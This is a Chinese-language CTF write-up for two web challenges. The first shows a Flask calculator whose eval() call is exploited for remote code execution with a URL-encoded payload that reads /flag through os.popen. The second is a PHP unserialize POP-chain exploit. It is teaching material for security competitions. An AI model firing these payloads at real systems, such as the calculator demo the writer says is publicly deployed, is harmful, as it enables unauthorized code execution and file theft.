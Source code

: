 ## web1
这道题原本是兰州大学校赛的题目,比较有意思的是这是一个真实的项目，并且作者部署了一个demo。最初我测试的时候demo应该是有一个waf的，后来不知道为什么没有了，直接可以rce，已经跟作者反映过了

* 在右上角点Fork me on Github就可以访问到该项目的github主页，得到源码。看看app.py
```python
# -*- coding: utf-8 -*-
"""
    Calculator

    A simple Calculator made by Flask and jQuery.

    :copyright: (c) 2015 by Grey li.
    :license: MIT, see LICENSE for more details.
"""
import re #导入python的正则表达式模块
from flask import Flask, jsonify, render_template, request
# 导入flask的一些模块

app = Flask(__name__) #实例化了一个Flask类


@app.route('/_calculate') #设置了一个路由，也就是如果访问了/_calculate，就会执行下面的calculate函数
def calculate():
    a = request.args.get('number1', '0') #获得number1这个get参数,如果没有该参数则a设为0，下面的两行也是类似的
    operator = request.args.get('operator', '+')
    b = request.args.get('number2', '0')
    m = re.match('-?\d+', a) #使用正则表达式进行匹配，这个正则的意思是匹配0个或1个负号加上1个或多个数字
    n = re.match('-?\d+', b)
    # 如果m没有匹配到东西或者n不是4中操作符的话就返回一个错误
    if m is None or n is None or operator not in '+-*/':
        return jsonify(result='I Catch a BUG!')
    #进行计算
    if operator == '/':
        result = eval(a + operator + str(float(b)))
    else:
        result = eval(a + operator + b)
 # eval函数会执行把参数当作代码进行执行，是一个非常危险的函数
 #这里是想执行类似123+123这样的表达式
    return jsonify(result=result) #把计算的结果以返回回去


@app.route('/') #另一个路由，访问/时会执行下面的index函数
def index():
    return render_template('index.html') #渲染模板文件，其实就是显示了那个计算器的页面


if __name__ == '__main__':
    app.run(debug=False, host='0.0.0.0') #启动flask
```
* 代码中添加了注释，可以对照注释理解一下代码
* 显然这里是要利用eval去执行我们想要的python代码，而这有几个阻碍:
    1. 正则表达式的匹配
    ```python
    m = re.match('-?\d+', a) #使用正则表达式进行匹配，这个正则的意思是匹配0个或1个负号加上1个或多个数字
    n = re.match('-?\d+', b)
    # 如果m没有匹配到东西或者n不是4中操作符的话就返回一个错误
    if m is None or n is None or operator not in '+-*/':
        return jsonify(result='I Catch a BUG!')
    ```
    * 仔细阅读代码可以发现后面带进eval的是变量a和b,因此只要匹配成功就可以带进eval
    * 本地尝试一下下面的几个例子可以发现只要是以数字开头的字符串都可以匹配成功，带进eval里执行
    ```python
    re.match('-?\d+','123')
    re.match('-?\d+','abc')
    re.match('-?\d+','123abc')
     re.match('-?\d+','abc123')
    ```
    2. 数字开头怎么执行代码
    可以使用逗号表达式,比如
    ```python
     eval('123,print("wxynb!")')
    ```
    会输出
    >wxynb!
    (123, None)

    3. 类型转换问题 
    因为a和b之间还有一个运算符operator,所以会报错。
    可以在a那里把operator和b注释掉
    ```python
    eval('123,print(123)'+'+'+'123')
    #报错TypeError: unsupported operand type(s) for +: 'NoneType' and 'int'
    eval('123,print(123)#'+'+'+'123')
    #加了一个注释符#，成功执行
    ```

* python执行系统命令,用于读flag
```python
''.join(__import__('os').popen('cat /flag').readlines())
```
* 最后的payload(url编码后):
```
?number1=123%2C%27%27.join%28__import__%28%27os%27%29.popen%28%27cat%20%2fflag%27%29.readlines%28%29%29%23&operator=/&number2=123
```

## web2
耿佬嫖来的题,难度比较大
### 预期解
.....此处省略一千字
### 非预期解
1. 复制其中代码，百度搜索(没错是百度搜到的。。),打开第一个结果https://www.cnblogs.com/BOHB-yunying/p/11839385.html
2. 代码几乎一样,只要把最后的exp改动一下即可
```php
<?php
class Read {
    private $var="/flag";
    //文章中的是public
}
 
class Show
{
    public $source;
    public $str;
}
 
class Test
{
 
    public $params; //文章中叫$p
}
$a=new Show();
$a->source=$a; //触发__toString
$a->str['str']=new Test();
$a->str['str']->params=new Read(); //这里也要把$p改成$params
echo urlencode(serialize($a)); 
```
* 这题具体的原理部分可以看看查到的那篇文章，或者问万能的耿佬
